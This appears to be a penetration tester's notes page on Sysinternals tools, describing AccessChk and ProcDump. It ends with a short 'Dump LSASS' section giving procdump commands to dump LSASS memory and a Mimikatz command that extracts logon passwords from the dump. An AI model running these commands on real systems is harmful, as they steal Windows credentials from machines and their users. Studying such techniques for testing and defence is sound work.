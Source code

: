 ```yaml
---
description: >-
  PsTools is a suite of tools developed by Sysinternals (now Microsoft). They're
  a great complement to any pen test, and many of my Nmap scripts are loosely
  based on them.
---
```


# psTools / Sysinternals

### AccessChk

As a part of ensuring that they've created a secure environment Windows administrators often need to know what kind of accesses specific users or groups have to resources including files, directories, Registry keys, global objects and Windows services. AccessChk quickly answers these questions with an intuitive interface and output.

### procdump

ProcDump is a command-line utility whose primary purpose is monitoring an application for CPU spikes and generating crash dumps during a spike that an administrator or developer can use to determine the cause of the spike. ProcDump also includes hung window monitoring \(using the same definition of a window hang that Windows and Task Manager use\), unhandled exception monitoring and can generate dumps based on the values of system performance counters. It also can serve as a general process dump utility that you can embed in other scripts. 

**Dump LSASS** 

32bit:

`procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp` 

64bit:

`procdump.exe -accepteula -ma -64 lsass.exe lsass.dmp`

Mimikatz can be used offline in order to read the contents of the LSASS dump and especially sections that contain logon passwords. 

`mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords exit` 

